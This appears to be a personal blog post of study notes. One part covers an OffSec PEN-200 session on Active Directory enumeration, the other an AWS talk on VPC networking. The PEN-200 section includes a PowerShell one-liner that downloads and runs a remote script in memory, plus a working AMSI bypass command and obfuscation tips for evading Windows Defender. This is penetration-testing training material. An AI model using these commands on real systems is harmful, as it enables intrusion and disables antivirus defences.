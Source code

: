 # OffSec Live: PEN-200 & AWS Deep Dive

* **author**:: Nathan Acks  
* **date**:: 2022-08-24

Notes from OffSec Live in the morning (as usual), and then a few more YouTube videos about AWS this evening.

## OffSec Live: PEN-200 - Active Directory Enumeration & Exploitation, Part 1

The Windows `whoami` supports a lot of flags. For example, `whoami /privs` returns privilege information, while `whoami /all` returns *tons* of information about the current user.

The Windows host name will be returned by the `hostname` command.

The Windows `systeminfo` command returns *a lot* of information about the current computer, including the associated domain controller if it's domain-joined.

Use `net users` to enumerate all local users on Windows.

Use `net users /domain` to enumerate domain users. `Administrator`, `Guest`, and `krbtgt` are all standard Windows domain users.

Windows allows for duplicate domain and local users; this is why users get prefixed by the domain or local machine name (and comparing the output of `whoami` and `hostname` will reveal if you're logged in with a local or domain account).

When viewing information about a Windows user, `net user $USERNAME` will return *local* user information, while `net user $USERNAME /domain` *domain* user information.

Local and domain groups can be enumerated in Windows using `net localgroup` and `net group /domain`.

See all Windows administrators for the local system: `net localgroup administrators`

By default, all members of the `Domain Admins` domain group are admins of both the *domain* and *all* machines in that domain.

One way to show domain group membership is to use `net group $GROUP /domain`. However, this *doesn't* show domain groups that are members of that group; for this you need to use PowerShell.

A good enumeration tool is `PowerView.ps1`. 

One tool supplied by `PowerView.ps1` is the `Get-DomainUsers | select name, memberof` command, which gets domain users and associated groups.

The `Get-DomainGroupMember -Identity $GROUP_NAME` command for `PowerView.ps1` will get all domain group members, *including* nested domain groups.

Another `PowerView.ps1` command is `Get-NetLoggedon | select UserName`, will show all users that previously logged on to the current machine. It requires administrative privileges to be run against remote machines.

The `Get-NetSession` command for `PowerView.ps1` shows all users who are logged in to the current machine *right now*. It can be called *without* admin privileges from Windows Server systems.

Finally, the `Invoke-UserHunter` command for `PowerView.ps1` bundles up `Get-NetLoggedon` and `Get-NetSession` to hunt for currently logged in domain admins.

You can download a remote script into memory and execute it using PowerShell using `IEX (New-Object System.Net.Webclient).DownloadString("$SCRIPT_URL")`. You can also load scripts into variables this way (just replace `IEX` with a variable assignment).

Windows Defender uses a process called AMSI that triggers when a script is run in PowerShell (this includes invocations of `IEX` for in-memory scripts). However, there's a lot of bypasses for this - for example, you can cause the AMSI init function to error out using `[REF].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)`.

AMSI traps all PowerShell commands that contain all AMSI-function related strings, however. The search uses regular expressions, and can be bypassed by putting portions of the script you're trying to call in variables, and then calling these instead. If you really need a one-liner, you can also do some fancy hex code conversion (see the "Bypass AMSI by manual modification" link).

Be aware that AMSI bypasses are *per session*, not global!

* [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)
* [Join OffSec Live](https://learn.offensive-security.com/offsec-live-webinars)
* [PowerShellMafia / PowerSploit / Recon / PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [Bypass AMSI by manual modification](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)

## Another Day, Another Billion Packets

[AWS re:Invent 2015: Another Day, Another Billion Packets (YouTube)](https://youtu.be/R-n4dDGfQd4)

VPC was originally created to help *Amazon* migrate their data centers to AWS.

EC2 originally just assigned new instances random IP addresses in the 10.44.x.x range. Every new instance got its own IP address, and there was no concept of unified subnets.

VPCs solve this! Every VPC gets a non-routable network that you choose. VPC subnets can be anything, so long as they (1) don't overlap and (2) are entirely contained within the VPC network.

VPCs are *not* VLAN based - there are at most 4096 separate VLAN tags.

VPCs are identified internally with a 128 bit number (8 hex digits).

The VPC mapping service is basically an ARP cache on steroids that understands what EC2 instances and VPCs *are* and on which physical servers the instances are located. But the mapping service doesn't *just* provide L2 information - servers receiving packets also verify that those packets are authentic (that the packet's server/instance/VPC tuple matches an existing system).

The mapping service also functions as a "virtual gateway", providing routing information *between* subnets. One interesting consequence of this is that, while in a traditional network inter- and intra-network routing looks slightly different, in AWS this routing is *exactly* the same once packets leave a physical server. L2 and L3 routing are essentially unified within AWS.

In practice, the every server contains a dedicated system that caches from the mapping service. In fact, these devices *pro-actively* cache from the mapping service as instances are spun up within a VPN. *All queries are handled by these caches.*

There are two types of caches - caches to individual hosts (EC2) instances, and caches to "edges", which map to other networks. Direct Connect, VPNs, and internet gateways are implemented at edges.

Edges also function as a 1-to-1 NAT in their role as internet gateways.

Edge devices are called "Blackfoot", after the South African Blackfoot Penguin.

The last non-AWS Amazon web server was deactivated on November 10, 2010. Since then, Amazon has run 100% on AWS. And Amazon uses the same EC2 instances as everyone else.

Edges can also now route to S3, enabling S3 buckets to be exposed *privately* within a VPC. Packets routed to S2 buckets configured in this fashion *never* traverse the public internet - they go out to an edge device and then are routed from there to S3.

S3 buckets can be restricted to particular VPCs, and EC2 instances can be restricted to accessing particular EC2 buckets. All of this is done with the standard Amazon ("Aspen") policy document structure.
